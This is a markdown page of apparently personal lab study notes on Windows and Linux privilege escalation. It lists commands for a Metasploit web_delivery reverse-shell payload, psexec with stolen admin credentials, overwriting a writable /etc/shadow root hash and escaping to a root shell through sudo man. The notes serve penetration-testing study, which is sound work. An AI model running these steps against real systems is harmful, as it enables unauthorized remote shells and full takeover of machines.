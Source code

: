 # Privilege Escalation
## Windows Privilege Escalation
### Identifying Windows Privilege Escalation Vulnerabilities
**Pricesc check script**
1. msfconsole: `search  web_delivery` -> `exploit/multi/script/web_delivery` -> `use 1` -> set LHOST, set target PSH, set payload windows/shell/reverse_tcp -> set PSH-EncodedCommand false
2.  copy and run the command that is propmpted in the script on the target windows machine 


After getting inistial acces and have a meterpreter session
  1. meterpreter: `cd C:\\` -> `cd Users` -> `cd student` -> `cd Desktop`
  2. navigate to the PrivescCheck directory that we popyed over(might be in a temp folder)
  3. `shell`
  4. Documentation: https://github.com/itm4n/PrivescCheck 
  
### Windows Privelege Escalation
**psexec**
1. Attack machine: `psexec.py username@target.ip` -> enter optained admin password(from prev notes)
2. if meterpreter session: `search exploit/windows/smb/psexex_psh` -> set Options and run

## Linux privilege escalation
**Weak permissions**
We already have low priv access and we are on Target machine
1. Terminal(find files that can help us elevate our priveleges):`find / -not -type l -perm -o+w`, etc/shadow, `cat /etc/shadow` -> can we modify the etc/shadow file? `ls -al /etc/shadow`, if `-rw-rw-rw-` then yes
2. change password: `openssl passwd -1 -salt abc password`, you will get the hashed password back, then replace it in the shadow file
3. change /etc/shadow root password: `vim /etc/shadow`
 ![alt text](/assets/change_shadow_file.png)
4. `su` type password, and you are super user

**SUDO Priveleges**
We already have low priv access and we are on Target machine.
1. list of commands you user can run: `sudo -l`, example to look for: /usr/bin/man
2. The 'man' can be executed as root: `sudo man ls` -> `!/bin/bash`, then you are elevated